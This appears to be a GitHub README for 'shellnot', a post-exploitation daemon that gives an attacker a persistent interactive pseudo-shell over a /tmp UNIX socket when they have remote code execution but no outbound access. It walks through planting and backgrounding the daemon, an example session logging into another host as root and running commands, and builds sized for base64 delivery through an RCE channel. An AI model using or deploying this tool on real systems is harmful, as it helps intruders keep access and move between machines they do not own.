 # shellnot

## What is this, and when do I use it?

`shellnot` is a UNIX socket-based daemon for situations where you have **RCE** but no egress - you can execute code, but you can’t exfiltrate or pop a reverse shell.

It gives you a **persistent, interactive shell** by tunneling commands through a local client to a background daemon via `/tmp` sockets. You’re not getting a bind shell or reverse shell; you’re getting a best-effort pseudo-shell that lives on the box, keeps context, and answers only when you ask.

Use it when:

- You have RCE but no shell.
- You can write to disk and run local binaries.
- Outbound connections are blocked.
- You want stateful interaction (e.g., cd, ssh, history).
- You're done injecting chains of single-use commands.

This is built for low-priv, egress-restricted, post-exploitation environments where most payloads are fire-and-forget. Drop the daemon once, then talk to it via local execution. That’s it.

## How it works

There are two parts:

1. **Daemon (`--daemon`)**  
   This runs locally and manages multiple persistent pseudo-terminal (PTY) shell sessions, each tied to a session ID. It listens over a UNIX socket (`/tmp/koreanfont.sock` by default).

2. **Client**  
   You trigger this over your RCE context. It writes to the socket and optionally reads back:
   - `--input "<command>"` → sends a command to a session
   - `--output` → reads the output buffer from that session

The client can be executed repeatedly from your RCE to simulate an interactive shell, one command at a time. The daemon keeps session state, history, and PTY context.

---

## Example usage

Once the binary is on the box, start the daemon:
```sh
./shellnot --daemon & 
```
*Or use any means to background the process like  cron, etc...*

Continuing the RCE context, send a command to session 1:

```sh
./shellnot --session 1 --input "ssh root@1.domain.com"
```

Fetch the output from session 1:

```sh
./shellnot --session 1 --output
```

Full flow:

```sh
./shellnot --daemon &
./shellnot --session 1 --input "ssh root@2.domain.com"
./shellnot --session 1 --output
ssh root@2.domain.com

root@2.domain.com”s password:
./shellnot --session 1 --input "toor"
./shellnot --session 1 --output

Last login: Sat May 24 16:45:40 2025 from 10.0.0.2
[root@localhost ~]$ ⏎ 
./shellnot --session 1 --input "id"
./shellnot --session 1 --output
id
uid=1001(root) gid=1001(root) groups=1001(root),970(docker),998(wheel)
[root@localhost ~]$
[root@localhost ~]$ ⏎ 
./shellnot --session 1 --input "exit"
./shellnot --session 1 --output
exit
logout
Connection to 2.domain.com closed.
$ ⏎
```
```
ps aux | grep shellnot
mcrn        5770  0.0  0.0   2772   956 pts/0    S    22:33   0:00 ./shellnot --daemon
```

# Caveats
- Means to background the process, or at least two RCE instances.
- Might require to compile the binary on the box itself.
- Only works on UNIX-like systems with forkpty() support.

---

*Ignore the warning, made it to be as small as possible for base64 transfer over `echo` with RCE.*

```sh
musl-gcc -static -O2 -s -o shellnot-linux-generic shellnot-linux-generic.c

./shellnot-linux-generic --daemon &
./shellnot-linux-generic --session 1 --input "ls -al"
./shellnot-linux-generic --session 1 --output
```

```sh
musl-gcc -Os -static -s -o snm shellnot-linux-minimal.c

./snm d&
./snm i 'ls -al'
./snm o
```

